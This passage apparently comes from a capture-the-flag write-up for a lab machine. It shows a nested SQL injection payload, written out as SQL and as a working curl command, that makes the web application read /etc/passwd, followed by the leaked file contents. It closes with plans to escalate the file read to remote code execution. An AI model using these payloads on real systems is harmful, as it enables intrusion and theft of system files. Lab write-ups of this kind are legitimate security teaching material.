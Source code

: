 Since we are injecting into 2 queries, need to have 2 sets of comments, as well as 2 sets of error queries via `UNION`:

```sql
-- first query
SELECT name FROM idname where id = 465' AND 1=2 UNION SELECT 'lol\' UNION SELECT \'/etc/passwd\' -- -'-- -
-- AND 1=2 causes id=465 to not be returned, returns the other strings and comments 
-- pass in the second embedded query as a string via escaped quotes
-- $tpl = lol UNION SELECT /etc/passwd -- -

-- second query
SELECT path from filepath where name = lol UNION SELECT /etc/passwd -- -;
```

This works in getting me an LFI:

```
$ curl -k -G --data-urlencode "id=465' AND 1=2 UNION SELECT 'lol\' UNION SELECT \'/etc/passwd\' -- -'-- -" https://www.nestedflanders.htb/index.php

<!-- <div align="center"> -->
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
<!-- </div> -->
```

Now, I need to somehow use this LFI for RCE. There were a few methods on Hacktricks, all of which involved reading the logs in the machine. 
